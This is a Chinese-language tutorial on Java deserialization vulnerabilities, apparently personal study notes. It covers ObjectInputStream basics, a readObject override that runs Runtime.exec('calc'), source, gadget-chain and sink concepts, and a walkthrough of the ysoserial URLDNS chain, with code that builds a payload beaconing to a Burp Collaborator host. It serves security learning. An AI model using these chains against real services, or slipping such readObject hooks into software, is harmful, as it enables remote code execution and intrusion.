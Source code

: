 # 0x01 Preface

> Java序列化：指把Java对象转换为字节序列的过程，便于保存在内存、文件、数据库中
> `ObjectOutputStream`类的`writeObject()`方法可以实现序列化
>
> Java反序列化：指把字节序列恢复为Java对象的过程，
> `ObjectInputStream`类的`readObject()`方法用于反序列化

一个类要能反序列化需满足下面条件

1. 该类必须实现`java.io.Serializable`接口
2. 该类的所有属性必须是可序列化的

反序列化利用条件

1. 有反序列化接口，即能读入反序列化字节并执行`readObject()`方法
2. 有可利用的类，即`readObject`方法能连接到其他可利用点的类

注意：

* 静态成员变量不能被序列化（序列化是针对对象属性的，而静态成员变量属于类）
* `transient`标识的对象成员变量不参加反序列化（反序列化后值为null）

# 0x02 New Experience

创建一个Person类，注意这个类需要实现java.io.Serializable接口

序列化：

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;

public class Serialization {
    public static void main(String[] args) throws Exception {
        Person person = new Person("Billy", 18);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(person);
    }
}
```

反序列化：

```java
import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class Deserialize {
    public static void main(String[] args) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("ser.bin"));
        Object person = ois.readObject();
        System.out.println(person);
    }
}
```

从反序列化到漏洞？

1. 入口类的`readObject`直接调用危险方法
2. 入口类参数中包含可控类，该类有危险方法，`readObject`时调用
3. 入口类参数中包含可控类，该类又调用其他有危险方法的类，`readObject`时调用

```java
// Person类中重写readObject
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
    ois.defaultReadObject();
    Runtime.getRuntime().exec("calc");
}
```

此时执行反序列化操作就会触发`Runtime.getRuntime().exec("calc");`

对于利用链上的类，都需要**实现`Serializable`接口、或继承该接口的实现类**

* Source：入口类（重写`readObject`调用常见方法，参数类型宽泛，最好jdk自带）
* Gadget Chain：调用链（相同方法名、相同参数类型、不同调用过程）
* Sink：执行类（RCE、SSRF、写文件...）

常见方法：`toString`、`hashCode`、`equals`

在后面的CC链中经常看到`HashMap`作为入口类，它实现了`Serializable`接口且作为jdk自带的类，`readObject`中调用了常见方法`hashCode`，是不错的入口类。

# 0x03 Best Practice

以`ysoserial`上的URLDNS为例：

上面讲到`HashMap`的`readObject`会调用`hashCode()`方法

```java
// HashMap#readObject
// Read the keys and values, and put the mappings in the HashMap
for (int i = 0; i < mappings; i++) {
    K key = (K) s.readObject();
    V value = (V) s.readObject();
    putVal(hash(key), key, value, false, false);
}
// ====================================================================
// HashMap#hash
// 调用hash是为保证键的唯一性
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

`hash`方法的参数key的类型是`Object`，满足**参数类型宽泛**

最后会调用键对象的`hashCode`方法。

下面看看URL类的`hashCode`方法

```java
// URL#hashCode
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;
    
    hashCode = handler.hashCode(this);
    return hashCode;
}
// URLStreamHandler#hashCode
protected int hashCode(URL u) {
    InetAddress addr = getHostAddress(u);
    // ....
}
```

`hashCode == -1`时会调用`handler.hashCode`，而URL类初始化的时候hashCode就被赋值-1

查看URL类的handler定义 `transient URLStreamHandler handler;`

`getHostAddress`用于获取IP地址，发送请求给DNS【可用于检查是否存在SSRF】

------

还有一个问题：在构造hashMap时调用put实际上会改变key的hashCode

```java
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

这时候就已经触发`URLStreamHandler#hashCode->getHostAddress`发起了一个DNS请求，会干扰反序列化时发起的DNS请求。

如果put的时候URL类的`hashCode != -1`就不会触发DNS请求
可以通过反射来修正。

```java
HashMap<URL, Integer> hashMap = new HashMap<>();
URL url = new URL("http://pun5j25rm4k6pazbyzmbukp9g0mtai.oastify.com");
// 通过反射修改 hashCode != -1
Field h = url.getClass().getDeclaredField("hashCode");
h.setAccessible(true);
h.set(url, 123456);
hashMap.put(url, 1);
// put之后再修改回来
h.set(url, -1);

ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
oos.writeObject(hashMap);
```

可以通过Burp的`Collaborator client`来接收DNS请求

